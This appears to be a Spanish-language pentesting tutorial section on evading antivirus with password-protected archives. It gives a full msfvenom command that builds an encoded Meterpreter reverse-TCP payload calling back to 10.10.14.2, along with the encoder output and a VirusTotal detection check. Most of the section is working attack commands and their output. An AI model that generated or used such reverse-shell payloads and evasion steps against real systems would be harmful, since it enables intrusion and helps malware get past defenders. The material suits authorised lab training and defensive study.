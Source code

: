 
## Archives

Archivar una pieza de información, como un archivo, carpeta, script, ejecutable, imagen o documento y colocar una contraseña en el archivo evita muchas firmas antivirus comunes en la actualidad. Sin embargo, la desventaja de este proceso es que se levantarán notificaciones en el tablero de alarmas del AV como no escaneables debido a estar bloqueados con una contraseña. Un administrador puede optar por inspeccionar manualmente estos archivos para determinar si son maliciosos o no.

### Generating Payload
```r
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/test.js
```

```r
cat test.js

�+n"����t$�G4ɱ1zz��j�V6����ic��o�Bs>��Z*�����9vt��%��1�
<...SNIP...>
�Qa*���޴��RW�%Š.\�=;.l�T���XF���T��
```

Si verificamos contra VirusTotal para obtener una línea base de detección del payload que generamos, los resultados serán los siguientes.

### VirusTotal
```r
msf-virustotal -k <API key> -f test.js 

[*] WARNING: When you upload or otherwise submit content, you give VirusTotal
[*] (and those we work with) a worldwide, royalty free, irrevocable and transferable
[*] licence to use, edit, host, store, reproduce, modify, create derivative works,
[*] communicate, publish, publicly perform, publicly display and distribute such
[*] content. To read the complete Terms of Service for VirusTotal, please go to the
[*] following link:
[*] https://www.virustotal.com/en/about/terms-of-service/
[*] 
[*] If you prefer your own API key, you may obtain one at VirusTotal.

[*] Enter 'Y' to acknowledge: Y


[*] Using API key: <API key>
[*] Please wait while I upload test.js...
[*] VirusTotal: Scan request successfully queued, come back later for the report
[*] Sample MD5 hash    : 35e7687f0793dc3e048d557feeaf615a
[*] Sample SHA1 hash   : f2f1c4051d8e71df0741b40e4d91622c4fd27309
[*] Sample SHA256 hash : 08799c1b83de42ed43d86247ebb21cca95b100f6a45644e99b339422b7b44105
[*] Analysis link: https://www.virustotal.com/gui/file/<SNIP>/detection/f-<SNIP>-1652167047
[*] Requesting the report...
[*] Received code 0. Waiting for another 60 seconds...
[*] Analysis Report: test.js (11 / 59): <...SNIP...>
```